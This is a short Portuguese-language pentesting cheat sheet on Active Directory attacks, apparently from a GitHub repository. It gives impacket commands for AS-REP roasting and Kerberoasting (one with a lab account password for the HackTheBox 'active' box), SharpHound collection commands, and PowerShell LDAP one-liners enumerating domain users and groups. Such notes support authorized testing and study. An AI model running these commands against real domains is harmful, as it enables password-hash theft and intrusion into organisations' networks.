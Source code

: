 2-ActiveDirectoryExploitation
========================
## Enumerar hashes de senha

    impacket-GetNPUsers -request domain/ -usersfile valid_users.txt -dc-ip <ip_dc>
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.205.44 -request

## 1 - Enumeração via BloodHound

```
SharpHound.exe -c all -d active.htb -SearchForest
```

```
SharpHound.exe -c all -d active.htb --LdapUsername <UserName> --LdapPassword <Password> --domaincontroller 10.10.10.100
```

## 2 - Enumeração manual

### Powershell

Enumeração de usuários

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"; $SearchString += $DistinguishedName; $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString); $objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter="samAccountType=805306368";$Searcher.FindAll()
```

Enumeração de usuários (com mais detalhes):

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"; $SearchString += $DistinguishedName; $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString); $objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter="samAccountType=805306368";$Result = $Searcher.FindAll(); Foreach($obj in $Result){Foreach($prop in $obj.Properties){$prop}Write-Host "------------------------"}
```

Enumerar grupos:

```
$ldapFilter = "(objectClass=Group)";$domain = New-Object System.DirectoryServices.DirectoryEntry; $search = New-Object System.DirectoryServices.DirectorySearcher; $search.SearchRoot = $domain; $search.PageSize = 1000; $search.Filter = $ldapFilter; $search.SearchScope = "Subtree";$results = $search.FindAll();foreach ($result in $results){$result.Properties.name}
```
